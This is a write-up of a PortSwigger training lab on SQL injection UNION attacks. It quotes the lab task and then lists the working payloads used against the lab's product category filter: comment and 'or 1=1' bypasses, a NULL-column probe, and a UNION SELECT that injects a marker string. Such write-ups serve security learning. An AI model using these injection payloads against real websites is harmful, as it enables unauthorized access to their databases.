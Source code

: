 

# SQL injection UNION attack, finding a column containing text

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

---------------------------------------------

Reference: https://portswigger.net/web-security/sql-injection/union-attacks

---------------------------------------------

We see there are 2 values displayed in the table, the name and the price of the products:



![img](images/SQL%20injection%20UNION%20attack,%20finding%20a%20column%20containing%20text/1.png)


We find these payload are valid to display the 4 items in Accessories and all the items:

```
/filter?category=Accessories'--
/filter?category=Accessories'+or+1=1--
```

Also, that there are 3 columns returned by the query and we can do a UNION attack with:

```
/filter?category=Accessories'+union+all+select+NULL,NULL,NULL--
```


We can print the string Qrc0Pq setting this string in the second value of the attack:

```
/filter?category=Accessories'+union+all+select+'0','Qrc0Pq','1234'--
```



![img](images/SQL%20injection%20UNION%20attack,%20finding%20a%20column%20containing%20text/2.png)
